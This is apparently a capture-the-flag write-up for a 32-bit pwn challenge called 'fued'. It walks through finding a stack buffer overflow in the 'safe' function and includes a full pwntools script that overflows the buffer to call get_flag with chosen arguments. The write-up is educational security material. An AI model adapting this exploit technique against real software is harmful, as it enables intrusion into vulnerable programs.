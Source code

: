 ```yaml
---
title: Fued pcc.nccs 2022
author: megachar0x01
date: 2022-07-22
categories: [Pwn, i386, ctf]
---
```


### Purpose : Get The Flag

We see that no protection is enabled and binary is 32-bit.

<img src="https://i.imgur.com/JefIMrL.png" alt="img_1">


  
Start by analyzing the main function. We can see that it prints the msg and then takes values from the user and store it in a character buffer of size 100. Later down the program, we can see that after some checks buffer is passed to the "safe" function.

<img src="https://i.imgur.com/wgiG6Ud.png" alt="img_2">

In the safe function we can see that the pass argument is copied to a variable that is on the stack because it has a 30 buffer size and we can overflow it

<img src="https://i.imgur.com/1cCLI7l.png" alt="img_3">

After found the correct padd value (38{ 30 ( buff size ) + 4 (saved ebp  ) + 4( param_1 )  } ) we  start writing exploit after going through function list found "get_flag" function . Which will read the flag but only print if the correct argument is paced which is "0xdeadbeef" and "0xcaf3b33f".


<img src="https://i.imgur.com/eOcnppY.png" alt="img_4">

Now complicated things are out of the way. My favorite part crafting the exploit.

```python
#!/usr/bin/python3
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)


gdbscript = '''

continue
'''.format(**locals())


exe = './fued'; elf = context.binary = ELF(exe, checksec=False);

io = start()
offset = 38

payload = b"A"*38+p32(0x080491f6)+b"A"*4+p32(0xdeadbeef)+p32(0xcaf3b33f) 

io.sendlineafter(b"Enter the key that you received when registering:",payload)

io.interactive()


```

"ブーム"。 旗を受け取った

<img src="https://i.imgur.com/u1nkhBH.png" alt="img_5">

